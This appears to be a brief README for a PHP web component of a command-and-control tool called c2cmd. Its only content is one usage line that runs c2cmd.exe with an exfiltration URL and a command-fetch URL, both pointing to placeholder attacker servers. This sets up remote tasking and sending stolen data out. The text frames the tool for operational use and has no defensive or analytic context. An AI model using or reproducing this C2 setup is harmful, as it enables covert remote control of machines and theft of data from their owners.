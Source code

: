 # c2cmd-php-web-component
usage with c# project for c2cmd.exe

```
c2cmd.exe --exfilurl https://COLLABURL/exfil --clearurl https://YOURSERVER/clear-c2cmd.php?get=1 --cmdurl https://YOURSERVER/c2cmd.txt
```
